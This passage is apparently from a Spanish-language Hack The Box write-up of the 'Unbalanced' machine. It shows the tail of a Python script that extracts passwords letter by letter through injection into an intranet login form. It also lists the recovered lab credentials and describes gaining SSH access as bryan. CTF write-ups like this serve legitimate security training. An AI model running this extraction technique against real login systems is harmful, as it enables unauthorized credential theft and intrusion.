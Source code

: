 ```py
                    "Username" : username,
                    "Password" : password
                }

                req = requests.post(intranet_url, data=data_post, proxies=proxy, timeout=10)
                
                try:
                    juicy = re.findall(r'<div class="w3-row-padding w3-grayscale"><div class="w3-col m4 w3-margin-bottom"><div class="w3-light-grey"><p class=\'w3-opacity\'>(.*)', req.text)
                    #Cuando el payload se ejecuta y se crea esta etiqueta sabemos que nos mostro algo del XML, tomamos la letra en que sucedio y la guardamos en una variable, para asi ir armando la password
                    if juicy:
                        letter_found += letter_array
                        p2.status("%s = %s" % (name, letter_found))
                        break

                except:
                    p2.failure("The ju1cy failed :(")

        p2.success("%s = %s" % (name, letter_found))
        letter_found = ""

    p1.success("w3 4r3 d0n3 (:")

except requests.exceptions.ReadTimeout:
    p2.failure("t1m3:(0ut")
```

* [Acá queda el script por si algo :P](https://github.com/lanzt/blog/tree/main/assets/scripts/HTB/unbalanced/vulnpage.py)

Obtenemos este output:

![268pyuserandpass](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unbalanced/268pyuserandpass.png)

Tenemos credenciales para probar en **SSH**, **rsync** o en el mismo login.

| Username | Password                |
| -------- |:----------------------- |
| rita     | password01!             |
| jim      | stairwaytoheaven        |
| bryan    | ireallyl0vebubblegum!!! |
| sarah    | sarah4evah              |

Si probamos con **SSH** cada credencial, las del usuario que tiene como rol **System Administrator** ósea `bryan` nos otorga acceso a la máquina y tenemos el flag `user.txt` :)

![268bashbryanssh](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unbalanced/268bashbryanssh.png)
